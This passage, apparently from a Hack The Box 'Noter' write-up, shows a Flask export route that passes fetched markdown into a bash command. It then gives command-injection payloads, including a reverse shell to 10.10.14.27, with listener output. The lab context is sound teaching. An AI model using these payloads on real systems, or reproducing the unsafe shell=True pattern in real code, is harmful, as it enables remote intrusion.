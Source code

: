 ```python
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    ...
```

The application, when exporting a markdown file from the cloud, is not validating the data received at all. It just build a command for Bash that run a javascript program to convert a Markdown file to a PDF.

If the Markdown file contains a payload like this:

```
' || ping -c 2 10.10.14.27 #
```
Bash will execute the ping command as you can see here:

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Noter]
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:12:02.238973 IP 10.10.11.160 > 10.10.14.27: ICMP echo request, id 5, seq 1, length 64
13:12:02.239002 IP 10.10.14.27 > 10.10.11.160: ICMP echo reply, id 5, seq 1, length 64
13:12:03.239702 IP 10.10.11.160 > 10.10.14.27: ICMP echo request, id 5, seq 2, length 64
13:12:03.239718 IP 10.10.14.27 > 10.10.11.160: ICMP echo reply, id 5, seq 2, length 64
```

Changing a bit the payload we can get a reverse shell!
```
' || bash -i &> /dev/tcp/10.10.14.27/8080 0>&1 #
```

```bash
┌──(kali㉿kali)-[~/Documents/HTB/Noter]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.160] 36412
bash: cannot set terminal process group (1261): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$
```

